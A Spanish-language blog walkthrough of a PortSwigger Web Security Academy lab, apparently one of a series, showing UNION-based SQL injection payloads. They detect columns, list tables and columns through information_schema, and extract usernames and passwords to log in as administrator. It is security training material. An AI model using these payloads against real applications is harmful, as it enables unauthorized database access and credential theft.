




+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 9"
date = "2021-11-06"
description = "Lab: SQL injection attack, listing the database contents on non-Oracle databases"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, listing the database contents on non-Oracle databases

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer datos de la base de datos, basandose en inyectar consultas para tomarlos, al final se resuelve el laboratorio iniciando sesion con el usuario `administrator`.

## Reconocimiento

Algo a notar en las consultas al hacer union en MySQL es que al agregar un comentario se debe de agregar un espacio, como ejemplo `union select null-- ` notese el espacio al final para que el sistema pueda comentar correctamente, en otros gestores no es necesario esto pero MySQL si.


###  Payloads

#### Detectar columnas

```sql
Gifts' order by 1-- -
Gifts' order by 2-- -
Gifts' order by 3-- - //Muestra error
```
### Detectar string

Por lo que se ve al imprimir datos es que las dos columnas recuperan datos string, no es necesario hacer la prueba pero siempre hacerlo cuando se dude.

```sql
Gifts' union select 'test','test'-- -
```

### Recuperar tablas

```sql
Gifts' union select null,table_name fRoM information_schema.tables-- -
```


### Recuperar nombres de columnas de la tabla `users_fcqnpf`

```sql
Gifts' union select null,column_name fRoM information_schema.columns wHeRe table_name='users_fcqnpf'-- -
```



### Recuperar Datos

```sql
Gifts' union select username_nrukiy,password_ebqikr from users_fcqnpf-- -
```


Y con esto hemos resulto el lab:



Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)